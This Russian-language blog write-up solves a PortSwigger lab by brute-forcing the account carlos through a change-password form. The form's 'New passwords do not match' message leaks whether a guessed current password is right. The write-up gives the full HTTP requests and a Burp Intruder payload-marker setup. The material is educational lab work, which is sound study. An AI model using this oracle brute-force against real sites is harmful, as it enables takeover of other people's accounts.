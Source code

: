 ```yaml
---
title: "Password brute-force via password change"
date: 2025-10-02
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change"
classes: wide
---
```


Для решения лабы нужно подобрать пароль для учетной записи `carlos`. Для входа в нашу учетную запись есть данные `wiener`:`peter`.

```
https://0a8500a30387741780671273009f0087.web-security-academy.net/
```

## Solution

Как всегда начну с осмотра страницы.

После того, как я зашел в свой аккаунт, я нашел форму для смены пароля. Вот `HTTP`-запрос, который для этого используется:

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=wTJv7cU5bzvDRXqcZ4JOr9mJQ4Rpmj13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account/
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

Так, а что будет, если ввести неправильный пароль? Попробую:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/1.png){: height="200" .align-center}

Хех, на меня обиделись. Подождем-с... После не хитрых манипуляций я обнаружил следующее: eсли мы вводим неверный пароль в поле `current-password`, то нас выкидывает на форму ввода пароля, а затем блокирует попытки ввода. Но если мы заполним это поле корректно, а значения `new-password-1` и `new-password-2` будут отличаться, то сайт вернет следующую ошибку:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/2.png){: height="200" .align-center}

Вот так выглядит сам запрос:

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=wTJv7cU5bzvDRXqcZ4JOr9mJQ4Rpmj13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account/
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

Но все это не имеет смыла, если не получится заменить имя в поле `username`)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/3.jpg){: height="200" .align-center}

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=MUllgmU7TYrHlt3H53Bq2YfXIgr0TNhg; session=3qG31h62rRMonzEd2NtHF04ydCOBjU5b
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&current-password=peter&new-password-1=111&new-password-2=222
```

Огонь:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/4.png){: height="200" .align-center}

Закину запрос в `Inruder`, чтобы попытаться перебрать пароли. Составлю атаку `Sniper` со [списом паролей](https://portswigger.net/web-security/authentication/auth-lab-passwords):

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=MUllgmU7TYrHlt3H53Bq2YfXIgr0TNhg; session=3qG31h62rRMonzEd2NtHF04ydCOBjU5b
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&current-password=§passwd§&new-password-1=111&new-password-2=222
```

Чтобы найти нужный пароль, применю фильтр по строке `New passwords do not match`. А вот:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/5.png){: height="200" .align-center}

Пароль подошел:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/6.png){: height="200" .align-center}
